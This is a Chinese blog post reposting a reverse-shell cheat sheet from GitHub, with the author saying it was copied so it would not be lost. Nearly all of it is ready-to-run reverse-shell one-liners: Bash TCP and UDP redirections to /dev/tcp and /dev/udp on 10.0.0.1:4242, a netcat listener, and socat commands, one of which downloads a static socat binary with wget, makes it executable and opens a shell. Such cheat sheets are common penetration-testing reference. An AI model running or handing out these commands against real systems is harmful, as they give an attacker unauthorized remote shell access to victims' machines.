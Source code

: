 ```yaml
---
title: 反弹shell备忘录
top_img: 'https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/revshells.png'
cover: 'https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/revshells.png'
categories: 反弹shell
tags:
  - 反弹shell
keywords: 反弹shell
comments: true
abbrlink: '5763537'
date: 2021-08-12 17:08:46
---
```


# 反弹shell备忘录

本文转载自著名开源社区github，担心哪天老外不开源了，所以这里做个记录（把老外的开源文档拖下来了），有一说一老外别的不行，这种技术博客写的是真顶，我这里直接拖下来也算是为中华网络安全之崛起做贡献了。

## 反弹shell

### Bash TCP

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
```

### Bash UDP

```bash
Victim:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```

不要忘记检查其他 shell ：sh、ash、bsh、csh、ksh、zsh、pdksh、tcsh、bash

###  Socat

```powershell
user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

```powershell
user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

